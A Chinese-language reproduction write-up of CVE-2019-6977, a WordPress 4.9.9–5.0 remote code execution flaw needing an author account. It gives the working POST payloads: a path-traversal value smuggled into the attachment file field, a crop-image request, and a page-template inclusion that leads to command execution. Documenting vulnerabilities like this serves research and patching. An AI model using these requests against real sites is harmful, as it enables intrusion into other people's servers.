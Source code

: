 # （CVE-2019-6977）WordPress 5.0 rce

> 原文：[https://www.zhihuifly.com/t/topic/3262](https://www.zhihuifly.com/t/topic/3262)

# （CVE-2019-6977）WordPress 5.0 RCE

## 一、漏洞简介

漏洞条件：拥有一个author权限的账号

## 二、漏洞影响

影响包括windows、linux、mac在内的服务端，后端图片处理库为gd/imagick都受到影响，只不过利用难度有所差异。

其中，原文提到只影响release 5.0.0版，但现在官网上可以下载的5.0.0已经修复该漏洞。实际在WordPress 5.1-alpha-44280更新后未更新的4.9.9~5.0.0的WordPress都受到该漏洞影响。

## 三、复现过程

传图片

![image](img/668d2784c936da8449fef4723e67db4c.png)

改信息

![image](img/bb617269ef1df81775857cec3cd4987c.png)

保留该数据包，并添加POST

```
&meta_input[_wp_attached_file]=2019/02/2-4.jpg#/../../../../themes/twentynineteen/32.jpg 
```

触发需要的裁剪

![image](img/0851f1b60ca250b81c039b5e0ae8244f.png)

裁剪

![image](img/86a327bed10a54ac3f8ad13700876964.png)

同理保留改数据包，并将POST改为下面的操作，其中nonce以及id不变

```
action=crop-image&_ajax_nonce=8c2f0c9e6b&id=74&cropDetails[x1]=10&cropDetails[y1]=10&cropDetails[width]=10&cropDetails[height]=10&cropDetails[dst_width]=100&cropDetails[dst_height]=100 
```

触发需要的裁剪

![image](img/5e3bf70381eccf11ed2346544a9cacd5.png)

图片已经过去了

![image](img/cabe4f9de6a869200a437b1b7b7a5710.png)

包含，我们选择上传一个test.txt，然后再次修改信息，如前面

```
&meta_input[_wp_page_template]=cropped-32.jpg 
```

![image](img/c66347d3f447eb0cfd89ba57702ddd5a.png)

点击查看附件页面，如果图片被裁剪之后仍保留敏感代码，则命令执行成功。

![image](img/e28ec5227b43186f828c7071c31b5358.png)

## 四、参考链接

> https://www.freebuf.com/vuls/196514.html